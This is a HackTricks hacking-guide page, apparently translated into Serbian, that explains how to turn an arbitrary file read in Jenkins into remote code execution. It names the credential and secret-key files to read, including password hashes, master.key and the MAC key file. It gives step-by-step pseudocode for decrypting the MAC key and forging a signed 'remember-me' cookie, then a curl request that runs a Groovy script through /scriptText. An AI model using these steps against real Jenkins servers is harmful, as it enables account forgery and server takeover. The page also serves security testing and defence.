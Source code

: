 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

U ovom blog postu je moguće pronaći odličan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani sažetak dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića za dobijanje RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj sažetak:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevani postavka).
* **Access Levels:** Napadač treba Overall/Read dozvole.
* **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedan sat trenutnom vremenu
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Konvertuje master key u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifruje .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Izračunava HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac)  // Konvertuje MAC u heksadecimalni string
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodira podatke kolačića
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
* Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan je kako se može napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
